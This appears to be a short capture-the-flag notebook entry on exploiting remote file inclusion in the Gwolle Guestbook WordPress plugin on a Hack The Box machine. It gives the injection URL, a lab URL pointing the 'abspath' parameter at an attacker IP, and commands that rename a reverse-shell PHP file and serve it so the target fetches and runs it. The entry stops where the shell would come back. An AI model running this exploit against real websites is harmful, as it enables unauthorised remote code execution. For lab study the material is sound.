



# allow\_include\_url

## allow\_include\_url enabled

### Remote File Inclusion POC 

* Gwolle Guestbook WordPress Plugin \(allow\_include\_url is enable ...\)

[http://\[host\]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://\[hackers\_website](http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website)\]

[http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test](http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.89/test)

* The server is trying to reach wp-config.php , so let's copy a revershell , rename it and host it:

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# cp nyws.php wp-config.php`

`root@nywsec:~/Documents/htb/boxes/TartarSauce-88/www# python -m SimpleHTTPServer 80`

* And get a shell back :

